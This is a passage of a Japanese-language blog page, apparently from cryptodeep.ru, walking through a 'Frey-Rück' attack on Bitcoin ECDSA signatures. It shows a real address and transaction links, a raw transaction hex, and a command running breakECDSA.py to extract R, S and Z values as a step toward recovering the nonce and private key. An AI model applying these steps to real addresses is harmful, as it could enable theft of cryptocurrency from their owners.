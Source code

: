 <figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/e5bb4aba7dc061059ac163e2dd62b4b025454f5db85e4ec65f45edee97d91393
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-3.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-649"/></figure>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-4.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-651"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2>攻撃に備えて RawTX を準備する</h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<blockquote class="wp-block-quote">
<p><strong><a href="https://btc1.trezor.io/address/1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5" target="_blank" rel="noreferrer noopener">1HYDQRwXbvVYpmDn6kGJ6kjyewvtyz1CL5</a></strong></p>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://btc1.trezor.io/tx/fed0b3472341788b58798d6a124a4d0c66c86535ae5f640cb7e5ba0e175665fb
</div></figure>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-17-1024x91.png" alt="Frey-Rück 攻撃を実装して、秘密鍵「K」 (NONCE) を取得します。" class="wp-image-790"/></figure>



<pre class="wp-block-code"><code>RawTX = 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>



<h2>ここで、すべての脆弱なトランザクションからすべての R、S、Z 値を取得する必要があります</h2>



<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 010000000128231a6d229f0dbea21477c631fd38d8c87159dc59b917bb822c4f593b5fba8e040000006a47304402203458a4ca3bd23a0e255b6c6f579019b1ca112d0f0e2fe4b9635423b9fbee204d0220445065a0df0007cb92c64c775019fb04cfdeb7e5820f61d6b31a52af6e2d091301210273376122cb37be518f8f47085978fda04eb7ced923b00d055b581b6fc2b179ffffffffff010000000000000000046a02585900000000
</code></pre>
